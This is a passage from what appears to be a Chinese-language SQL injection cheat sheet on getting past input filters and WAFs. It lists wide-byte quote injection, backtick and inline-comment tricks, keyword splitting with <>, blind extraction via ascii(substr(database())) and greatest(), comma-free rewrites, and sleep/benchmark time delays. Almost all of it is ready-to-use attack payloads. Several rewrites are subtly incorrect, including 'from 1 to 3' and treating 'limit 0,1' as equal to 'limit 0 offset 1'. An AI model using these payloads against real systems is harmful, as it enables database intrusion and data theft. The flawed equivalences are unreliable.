 ### 7.单引号

```
%df%27
```

### 8.反引号

反引号只能在表名，一般情况下如果表名和语法一样，那么就必须用反引号修饰，否则数据库会误以为这是语法！！！！！！！！！！！！！！！！！！！！！！

```
select username,password from `table1` where id='1' limit 0,1
```

where

```
select * from `where` where id =1
```

### 9.内联注释

```
and /*!select*/ 1,2
```

### 10.<>绕过

```
uni<>on sel<>ect

select * from users where id=1 and ascii(substr(database(),0,1)) > 115
greatest least

select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 11.屏蔽逗号

```
select substr("xxxxx",1,3)
-> 
select substr("xxxxx" from 1 to 3)

union select 1,2,3
->
union select * from (select 1)a join (select 2)b join (select 3)c;

limit 0,1
->
limit 0 offset 1
```

### 12.sleep屏蔽

```
and sleep(1)
and benchmark(100000000,1);
```
